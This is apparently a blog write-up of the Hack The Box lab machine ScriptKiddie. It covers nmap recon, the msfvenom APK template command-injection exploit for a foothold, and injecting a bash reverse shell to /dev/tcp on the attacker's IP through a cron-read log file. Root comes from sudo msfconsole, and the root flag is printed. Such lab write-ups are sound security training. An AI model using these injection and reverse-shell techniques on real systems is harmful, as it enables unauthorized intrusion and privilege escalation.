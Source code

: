 ```yaml
---                                                                                                                                  
title: Hackthebox - ScriptKiddie                                                                                                             
image: htb-scriptkiddie/htb-scriptkiddie-logo.png                                                                          
date: 2021-06-05                                                                                                                      
categories: [Hackthebox]                                                                                                               
tags: [linux, metasploit, bash, nmap, apk]     
show: "Scriptkiddie as the name suggests is a linux machine which hosts hacker tools for scanning and generating payloads. It begins by finidng metasploit vulnerability to gain foothold on the machine. There is a cronjob in the machine that is running a bash script. We take advantage of this script to gain a reverse shell as the user. The pwned user is able to run metasploit with superuser privileges which we execute bash to gain root access."
---
```


# Summary
Scriptkiddie as the name suggests is a linux machine which hosts hacker tools for scanning and generating payloads. It begins by finidng metasploit vulnerability to gain foothold on the machine. There is a cronjob in the machine that is running a bash script. We take advantage of this script to gain a reverse shell as the user. The pwned user is able to run metasploit with superuser privileges which we execute bash to gain root access.

# Recon

## Nmap
Nmap finds two open TCP ports, SSH (22) and HTTP (5000):
```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# nmap -sC -sV -oN nmap/scriptkiddie 10.10.10.226
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 21:35 EDT
Nmap scan report for 10.10.10.226
Host is up (0.28s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.57 seconds
```
Based on nmap result, the target is likely running Ubuntu Focal.

## Webserver - TCP 80
The webserver is hosting 3 services:
- scanning using nmap
- generating metasploit payloads 
- searching exploits using searchsploits

![](htb-scriptkiddie/2021-06-04-21-49-09.png)

I conducted directory bruteforce but did not find any hidden files. I also went through the source code of the website and nothing stood out for me.

I tried to escape the nmap command by using bash special characters like ```; and &&``` but they all displayed the error below.

![](htb-scriptkiddie/2021-06-04-22-00-03.png)

The webserver is using [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) to generate payloads. In the dropdown, there are ```windows, linux and android``` options to choose from and an optional template file attachments. 

![](htb-scriptkiddie/2021-06-04-22-04-01.png)

Googling ```metasploit template vulnerability``` returns [Metasploit Framework msfvenom APK Template Command Injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) vulnerability.

![](htb-scriptkiddie/2021-06-04-22-15-12.png)

# Exploitation
## Foothold
There are a multiple proof of concept payloads for the metasploit template vulnerability. I generated the ```.apk``` payload using msfconsole:

```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# msfconsole -q   
msf6 > search metasploit template

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/multi/http/jira_hipchat_template                                2015-10-28       excellent  Yes    Atlassian HipChat for Jira Plugin Velocity Template Injection
   1  exploit/unix/webapp/datalife_preview_exec                               2013-01-28       excellent  Yes    DataLife Engine preview.php PHP Code Injection
   2  exploit/windows/fileformat/mcafee_showreport_exec                       2012-01-12       normal     No     McAfee SaaS MyCioScan ShowReport Remote Command Execution
   3  exploit/windows/http/exchange_ecp_dlp_policy                            2021-01-12       excellent  Yes    Microsoft Exchange Server DlpUtils AddTenantDlpPolicy RCE
   4  auxiliary/gather/oats_downloadservlet_traversal                         2019-04-16       normal     Yes    Oracle Application Testing Suite Post-Auth DownloadServlet Directory Traversal
   5  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection
msf6 > use 5
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost tun0
lhost => tun0
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 9001
lport => 9001
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /root/.msf4/local/msf.apk
```
The ```msf.apk``` payload was saved in ```/root/.msf4/local/msf.apk``` directory. 

I started listening on port 9001 on my kali machine and uploaded the ```msf.apk``` file. 

![](htb-scriptkiddie/2021-06-04-22-36-21.png)

# Privilege Escelation

## User Privesc
I landed on the target as ```kid``` user. There was another user ```pwn``` in the system. 
I the home directory of ```kid``` user, there is a bash script ```scanloser.sh``` and the following bash script:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
The script does the following:
- It specifies ```log``` variable as ```/home/kid/logs/hackers```
- it gets the content of ```/home/kid/logs/hackers```, splits on space and grabs everything beyond 3rd column
- It then executes ```nmap``` on it

In order to abuse this script, we have to insert 3 spaces before our payload. i.e

```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# cat test.txt                 
1 2 3 4 5 6 7 8 9
                                                                                                                                       
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# cat test.txt | cut -d' ' -f3- 
3 4 5 6 7 8 9
                                                                                                                                       
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# 
```
I inserted below line to ```/home/kid/logs/hackers``` in order obtain reverse a shell as ```pwn``` user

```bash
echo -n "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.40/9001 0>&1';" > /home/kid/logs/hackers
```
The above line has 3 spaces before ```;```. I used ```echo -n``` option to avoid the trailing line.

Received reverse shell as ```pwn``` user.

![](htb-scriptkiddie/2021-06-04-23-24-36.png)

## Root Privesc
The user ```pwn``` can execute ```/opt/metasploit-framework-6.0.9/msfconsole``` with superuser privilege.

Metasploit can execute command with option ```-x```. ```-q``` is to ignore metasploit banner from displayed.

```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q -x bash
[*] exec: bash

root@scriptkiddie:/home/pwn# whoami
root
root@scriptkiddie:/home/pwn# cat /root/root.txt 
5b6cdaf092a4be80da48835068553ae7
root@scriptkiddie:/home/pwn# 
```

![](htb-scriptkiddie/2021-06-04-23-27-10.png)
